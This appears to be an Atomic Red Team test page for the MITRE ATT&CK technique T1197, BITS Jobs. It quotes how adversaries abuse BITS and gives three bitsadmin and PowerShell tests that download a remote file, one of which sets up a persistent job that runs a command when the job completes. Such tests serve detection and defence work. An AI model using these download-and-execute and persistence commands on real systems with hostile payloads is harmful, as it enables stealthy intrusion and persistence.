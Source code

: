 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1086)  (Citation: Microsoft BITS) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool. (Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048). (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)


<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%\bitsadmin_flag.ps1|


#### Run it with `command_prompt`! 
```
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```


#### Cleanup Commands:
```
del #{local_file}
```

<br/>
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP\bitsadmin_flag.ps1|


#### Run it with `powershell`! 
```
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```


#### Cleanup Commands:
```
Remove-Item #{local_file}
```

<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%\bitsadmin_flag.ps1|
| command_path | Path of command to execute | path | C:\Windows\system32\notepad.exe|
| command_line | Command line to execute | string | %temp%\bitsadmin_flag.ps1|


#### Run it with `command_prompt`! 
```
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```



<br/>
